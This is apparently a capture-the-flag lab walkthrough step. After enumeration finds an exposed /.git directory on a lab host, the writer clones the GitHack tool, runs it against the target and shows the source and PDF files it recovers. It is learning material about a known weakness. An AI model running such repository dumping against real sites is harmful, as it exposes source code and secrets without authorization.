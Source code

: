 On the enumerate section there's a <font color="#ffc000">|_  /.git/HEAD: Git</font>  folder. Accessing the directory gives the 403 status.

Hidden directories, left accidentally (or not) on the server, might be a very valuable source of sensitive data leaks. More info https://github.com/bl4de/research/tree/master/hidden_directories_leaks#hidden-directories-and-files-as-a-source-of-sensitive-information-about-web-application.


## Install the exploit.
`$ git clone https://github.com/lijiejie/GitHack.git` 

Run the exploit.
`$ python3 GitHack.py http://10.10.25.126/.git/` 

[+] Download and parse index file ...
[+] CTX_WSUSpect_White_Paper.pdf
[+] Context_Red_Teaming_Guide.pdf
[+] Context_White_Paper_Pen_Test_101.pdf
[+] Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
+ Glibc_Adventures-The_Forgotten_Chunks.pdf
+ api.php
+ functions.php
+ home.php
+ index.php
+ info.php
OK home.php
OK functions.php
OK info.php
OK api.php
OK index.php
OK Context_White_Paper_Pen_Test_101.pdf
OK Context_Red_Teaming_Guide.pdf
OK Glibc_Adventures-The_Forgotten_Chunks.pdf
OK CTX_WSUSpect_White_Paper.pdf
OK Demystifying_the_Exploit_Kit-Context_White_Paper.pdf

**Next step:** [[What is the API key that fits the following pattern- AND]]

